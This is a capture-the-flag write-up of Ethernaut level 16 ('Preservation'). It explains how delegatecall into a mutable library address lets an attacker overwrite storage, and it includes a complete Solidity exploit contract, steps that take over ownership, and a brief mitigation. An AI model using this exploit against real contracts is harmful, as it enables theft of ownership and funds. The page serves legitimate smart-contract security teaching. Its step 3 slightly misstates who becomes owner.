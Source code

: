 ```yaml
---
title: Level 16 - Preservation
slug: level-16
published: 05-24-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut16.svg
---
```


## Objectives

1. Claim ownership of the contract.

## Vulnerabilities

### Delegatecall

Calling into a contract with `delegatecall` gives full control over the the calling contract's storage values and balance. _Calling
into untrusted contracts is very dangerous._ Changing the address of the library instance to the address of our hack contract gives us
the ability to modify any storage values.

## Exploit

1. Write and deploy this hack contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Preservation.sol";

contract PreservationHack {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;

    Preservation target;

    constructor(address _targetAddress){
        target = Preservation(_targetAddress);
    }

    function attack() public {
        target.setFirstTime(uint(uint160(address(this))));
    }

    function setTime(uint _time) public {
        owner = msg.sender;
    }
}
```

2. Call the `attack` function which will modify the first storage variable of the `Preservation` contract to the
   address of ths `hack` contract.

3. Call the `setFirstTime` function with any uint as input to modify the owner to the hack contract.

## Suggested mitigation

- Using stateless libraries prevent this type of exploit.

## Further reading

- Delegatecall exploits <ExternalLink href={"https://solidity-by-example.org/hacks/delegatecall/"} />
